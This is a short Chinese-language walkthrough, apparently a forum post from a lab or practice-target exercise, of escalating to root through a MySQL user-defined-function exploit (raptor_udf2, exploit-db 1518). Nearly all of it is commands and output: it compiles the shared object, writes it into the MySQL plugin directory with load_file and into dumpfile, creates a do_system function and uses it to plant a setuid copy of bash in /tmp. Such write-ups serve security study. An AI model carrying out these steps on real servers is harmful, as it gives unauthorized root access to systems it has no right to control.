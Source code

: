 ### 查看Mysqld的版本号

![image-20210630115710381](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-c3ddabef01c149746af253335d38f02c12e5e48f.png)

Mysql数据库可以用过UDF提权进行实现

### Mysql-UDF提权

<https://www.exploit-db.com/exploits/1518>

安装通过共享对象运行的用户定义功能 进行提权

下载源码到靶机

![image-20210630130745288](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-863980c3f26a14efce66086cfd7ab0a544b0b685.png)

用法要进行一些修改

这里要提一下

gcc编译中的选项

```php
加上 fPIC 选项生成的动态库，显然是位置无关的，这样的代码本身就能被放到线性地址空间的任意位置，无需修改就能正确执行
可以理解为放宽了编译通过的维度
```

```php
user@debian:~$ gcc -g -c raptor_udf2.c -fPIC
user@debian:~$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
user@debian:~$ mysql -u root -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 35
Server version: 5.1.73-1+deb6u1 (Debian)

Copyright (c) 2000, 2013, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> use mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> create table foo(line blob);
Query OK, 0 rows affected (0.01 sec)

mysql> insert into foo values(load_file('/home/user/raptor_udf2.so'));
Query OK, 1 row affected (0.00 sec)

mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
Query OK, 1 row affected (0.00 sec)

mysql> create function do_system returns integer soname 'raptor_udf2.so';
Query OK, 0 rows affected (0.00 sec)

mysql> select do_system('cp /bin/bash /tmp/rootbash;chmod +s /tmp/rootbash');
+----------------------------------------------------------------+
| do_system('cp /bin/bash /tmp/rootbash;chmod +s /tmp/rootbash') |
+----------------------------------------------------------------+
|                                                              0 |
+----------------------------------------------------------------+
```